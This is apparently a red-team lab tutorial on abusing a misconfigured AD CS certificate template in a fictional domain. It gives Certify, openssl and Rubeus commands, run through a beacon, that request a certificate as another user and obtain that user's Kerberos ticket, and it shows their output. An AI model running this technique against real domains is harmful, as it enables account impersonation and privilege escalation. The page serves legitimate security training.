AD CS certificate templates are provided by Microsoft as a starting point for distributing certificates.  They are designed to be duplicated and configured for specific needs.  Misconfigurations within these templates can be abused for privilege escalation.

As `iyates` on **WKSTN-3**, use the [Certify](https://github.com/GhostPack/Certify) tool to find any vulnerable templates:

```
beacon> getuid
[*] You are CYBER\iyates

beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable
```
  

![](https://rto-assets.s3.eu-west-2.amazonaws.com/adcs/certify-vuln-template.png)

  

Let's go through the key parts of this output.

1.  The name of the Certificate Authority is **dc-1.cyberbotic.io\ca-1**.
2.  The template is called **VulnerableUserTemplate**.
3.  **ENROLLEE_SUPPLIES_SUBJECT** allows the certificate requestor to provide a SAN (subject alternative name).
4.  The certificate usage has **Client Authentication** set.
5.  Domain Users have enrolment rights, so any domain user may request a certificate from this template

>  If a principal you control had WriteOwner, WriteDacl or WriteProperty, then this could also be abused.

  

This configuration allows any domain user to request a certificate for any other domain user (including a domain admin), and use it to authenticate to the domain.  Request a certificate for **nglover**.

```
beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-1.cyberbotic.io\ca-1 /template:VulnerableUserTemplate /altname:nglover

[*] Action: Request a Certificates

[*] Current user context    : CYBER\iyates
[*] No subject name specified, using current context as subject.

[*] Template                : VulnerableUserTemplate
[*] Subject                 : CN=Isabel Yates, CN=Users, DC=cyberbotic, DC=io
[*] AltName                 : nglover

[*] Certificate Authority   : dc-1.cyberbotic.io\ca-1

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 4

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA7+QJhT7SgrP2SLWI7JqilriLBFjGRgob7sK6Gt8/EN4ODCqA
[...snip...]
EZCgtNFHJpynmPVNEcocncFPtV1hskXIElcwer/EdIROOW+qZhan
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
MIIGKzCCBROgAwIBAgITIQAAAAJ1qRjA3m3TOAAAAAAAAjANBgkqhkiG9w0BAQsF
[...snip...]
Xm58FnNpAvwXQi1Vu+xIdtpRSGsnl6T6/TYwJlhKqMEU9mRfgaWXgLS+HdS++aw=
-----END CERTIFICATE-----

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

Certify completed in 00:00:16.3844085
```

  
Copy the whole certificate (including the private key) and save it to `cert.pem` on the Kali VM.  Then use the `openssl` command to convert it into pfx format.  You may enter a password (recommended) or leave it blank.

```
root@kali:~# openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password:
Verifying - Enter Export Password:
```

  

Convert `cert.pfx` into a base64 encoded string:  `cat cert.pfx | base64 -w 0` and use `Rubeus asktgt` to request a TGT using this certificate.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:nglover /certificate:MIIM5wIBAz[...snip...]dPAgIIAA== /password:password /nowrap

[*] Action: Ask TGT

[*] Using PKINIT with etype aes256_cts_hmac_sha1 and subject: CN=Isabel Yates, CN=Users, DC=cyberbotic, DC=io 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'cyberbotic.io\nglover'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIGNjCCB[...snip...]pYy5pbw==

  ServiceName              :  krbtgt/cyberbotic.io
  ServiceRealm             :  CYBERBOTIC.IO
  UserName                 :  nglover
  UserRealm                :  CYBERBOTIC.IO
  StartTime                :  1/18/2022 4:38:26 PM
  EndTime                  :  1/19/2022 2:38:26 AM
  RenewTill                :  1/25/2022 4:38:26 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  unJ966veiMXllOu4n88hvAcX/6j71To9JJU5Ec48Pds=
  ASREP (key)              :  6F8361B5177CCC416E67A297C9D61AC975DEAA9E0505DE86657F16EAE9AD8F72
```